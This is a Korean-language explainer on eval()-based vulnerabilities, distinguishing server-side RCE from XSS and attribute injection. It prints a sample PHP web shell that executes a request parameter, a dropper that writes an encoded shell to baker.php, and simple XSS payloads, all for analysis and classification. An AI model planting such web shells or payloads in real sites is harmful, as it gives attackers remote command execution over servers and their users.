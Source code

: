 ## 🔍 용어 정리

| 용어                              | 설명                                                        |
| ------------------------------- | --------------------------------------------------------- |
| **XSS (Cross-Site Scripting)**  | 자바스크립트 코드가 브라우저에서 실행됨                                     |
| **RCE (Remote Code Execution)** | 서버 측에서 임의의 코드가 실행됨                                        |
| **eval()**                      | 브라우저에서도 쓰이고, PHP 같은 서버언어에서도 쓰이는 **실행 함수**                 |
| **Attribute Injection**         | HTML 속성(attribute)에 악성 코드가 삽입됨 (ex: `onerror="alert(1)"`) |

---

## 🔍 `eval()`은 상황에 따라 다르게 해석됨

### 1. 📡 서버 측에서 eval() → RCE (PHP, Node.js 등)

예:

```php
eval($_GET['cmd']);  // 위험한 RCE
```

* 서버에서 임의 코드가 실행됨
* 이는 **XSS가 아니라 RCE**


## ✅ 예시 코드 1 

```php
eval(base64_decode('...'));
```

→ 이건 **base64로 인코딩된 코드를 디코딩해서 실행**하겠다는 의미입니다.



## base64 디코딩 해석

'...'에 들어간 코드의 디코딩된 결과를 보면 다음과 같습니다:

```php
file_put_contents('baker.php', base64_decode('PD9waHAgY2xhcz0NFNDkzRjYYgeyBwdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJEh5NUY3...'))
```

### 🧨 의미:

* `file_put_contents('baker.php', ...)`
  → 서버에 `baker.php` 파일을 생성하고
* 그 안에 또 다른 **base64 인코딩된 PHP 웹쉘**을 저장


## 이중 인코딩된 웹쉘

`base64_decode(...)` 안에 또 다른 base64가 있으므로, 결과적으로는 다음처럼 됩니다:

```php
<?php
eval(
    base64_decode(
        base64_decode('...') // 이 안에 최종 웹쉘
    )
);
```

→ **이중 디코딩 후 eval로 실행되는 구조**는 흔한 **웹쉘 우회 기법** 중 하나입니다.


## 🚨 실제 기능 요약

| 항목       | 내용                                             |
| -------- | ---------------------------------------------- |
| 🧱 목적    | 서버에 `baker.php`라는 파일 생성                        |
| 📦 내용    | `baker.php` 안에 base64 인코딩된 PHP 코드 삽입           |
| 🔥 기능    | eval, base64\_decode 이용한 원격 명령 실행 백도어          |
| 🎯 최종 결과 | 공격자가 `baker.php?pass=...` 같은 방식으로 **명령 실행 가능** |



## ✅ 에시 코드 2
```php
<?php
class GcE493F6 {
    public function __construct($Hy5F7){
        @eval(.$Hy5F7.);
    }
}
new GcE493F6($_REQUEST['pass']);
echo error303;
?>
```

---

## 🔍 코드 상세 설명

| 줄                                     | 설명                                                      |
| ------------------------------------- | ------------------------------------------------------- |
| `class GcE493F6 { ... }`              | `GcE493F6`라는 클래스 정의 (이름은 무작위로 보이지만 난독화된 것)              |
| `public function __construct($Hy5F7)` | 클래스가 생성될 때 자동 실행되는 **생성자 함수**                           |
| `@eval(.$Hy5F7.);`                    | `$Hy5F7`에 들어온 문자열을 **PHP 코드로 실행** → `eval()` 사용         |
| `new GcE493F6($_REQUEST['pass']);`    | `$_REQUEST['pass']` 값으로 객체를 생성하며, **그 값이 곧 실행됨**        |
| `echo error303;`                      | 존재하지 않는 상수 `error303` 출력 → PHP Notice 또는 오류 유도 (종료 확인용) |


eval($_REQUEST['pass']);는
👉 클라이언트가 HTTP 요청으로 보낸 문자열을
👉 PHP 코드처럼 해석하고 실행한다는 뜻입니다.

---

### 2. 🌐 클라이언트 측 HTML에서 eval() → XSS (JavaScript)

예:

```html
<script>
eval(location.hash.slice(1)); // → location.hash에 따라 JS 실행
</script>
```

* 사용자가 브라우저에 악성 자바스크립트를 삽입
* 이는 **XSS**

---

### 3. ✒️ Attribute Injection이 되는 경우

만약 페이로드가 아래처럼 HTML의 속성에 삽입된다면:

```html
<img src="x" onerror="eval(alert('XSS'))">
```

여기서는 **HTML 속성(`onerror`)에 eval이 들어감** → 이건 **Attribute Injection** 형태의 **XSS**입니다.

> 즉, `eval()`이 있다고 해서 무조건 Attribute Injection이 되는 게 아니라,
> **삽입 위치가 HTML 속성이었을 때** "Attribute Injection"이라고 부르는 거예요.

---

## 🔁 다시 질문으로 돌아가서:

> ❓ *"eval()이 들어간 페이로드가 왜 Attribute Injection으로 분류돼?"*

→ ✅ **HTML 속성 내부**에 삽입되어 있기 때문에, **Attribute Injection 유형의 XSS**로 분류되는 것.

---

## 💡 정리

| 상황                                        | 분류                                  |
| ----------------------------------------- | ----------------------------------- |
| `eval()`이 서버에서 실행                         | 🔥 RCE (예: PHP, Node.js)            |
| `eval()`이 `<script>` 안에서 실행               | 🧨 일반 XSS                           |
| `eval()`이 `<img onerror="...">` 같은 속성에 삽입 | 🚩 Attribute Injection (XSS의 하위 유형) |

